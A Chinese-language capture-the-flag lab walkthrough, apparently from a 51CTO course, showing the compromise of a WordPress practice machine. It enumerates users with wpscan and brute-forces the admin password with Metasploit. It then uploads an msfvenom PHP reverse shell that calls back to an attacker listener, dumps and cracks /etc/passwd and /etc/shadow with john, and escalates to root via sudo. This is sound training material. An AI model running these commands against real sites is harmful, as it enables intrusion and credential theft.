51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘敏感目录找到后台登录界面，使用wpscan探测用户名、metasploit暴力破解密码，登录wordpress后台上传执行php反弹shell，获得低权shell，最后利用john对靶机passwd和shadow文件进行暴力破解，获得高权用户密码，提权root获得flag。

本篇使用工具wpscan，metasploit，john。

<!-- more -->

# 使用命令

## wpscan

``` bash
wpscan --url 靶机web地址 --enumerate u
```

## metasploit

``` bash
msfconsole
#暴力破解
>use auxiliary/scanner/http/wordpress_login_enum
>set rhosts 靶机IP
>set targeturl 靶机web地址
>set pass_file 密码文件
>set username 用户名
>run

#监听端口
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 攻击机IP
>set lport 攻击机port
>run
```

## john

``` bash
unshadow /etc/passwd /etc/shadow > cracked
john cracked
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，一个web服务，`dirb`挖掘`80`端口web信息，找到一个wordpress的登录界面：

``` bash
nmap -sV 192.168.2.125
dirb http://192.168.2.125/
```



2. 使用wpscan扫描这个wordpress的用户名（常规操作一般是先访问登录页面，尝试弱口令**admin**登录）：

``` bash
wpscan --url http://192.168.2.125/secret/ --enumerate u
```



3. 扫出来了**admin**用户：



4. 使用metasploit暴力破解admin用户密码，查看需要设置字段：



5. 设置参数，执行：

``` bash
msfconsole
#暴力破解
>use auxiliary/scanner/http/wordpress_login_enum
>set rhosts 192.168.2.125
>set targeturl /secret/
>set pass_file /usr/share/wordlists/dirb/common.txt
>set username admin
>run
```



6. 破解出密码**admin**：



7. 登录后台修改404页面上传php反弹shell：

``` bash
msfvenom -p /php/meterpreter/reverse_tcp -f raw > shell.php
```



8. metasploit里开启监听，获得shell：

``` bash
msfconsole
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 192.168.2.205
>set lport 4444
>run
```

**注意：7、8两步也可选择复制`/usr/share/webshells/php/php-reverse-shell.php`并修改其中靶机IP端口，配合攻击机nc监听端口实现反弹shell。**



9. 使用metasploit把靶机的`/etc/passwd`和`/etc/shadow`文件荡下来：



10. 上john破解，首先unshadow一下，之前已经破解过的加`--show`参数即可显示之前的破解结果：

``` bash
unshadow /etc/passwd /etc/shadow > cracked
john cracked
```



11. ssh登录成功，依旧低权，`sudo -l`查看提权范围，`sudo bash`提权：



# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)